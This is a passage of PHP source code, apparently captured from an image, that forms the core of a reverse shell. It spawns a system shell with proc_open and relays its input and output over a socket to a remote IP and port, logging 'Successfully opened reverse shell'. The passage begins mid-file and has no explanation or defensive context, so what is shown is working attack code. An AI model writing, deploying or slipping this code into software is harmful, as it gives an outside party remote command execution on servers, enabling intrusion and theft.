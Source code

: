 ```php
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
```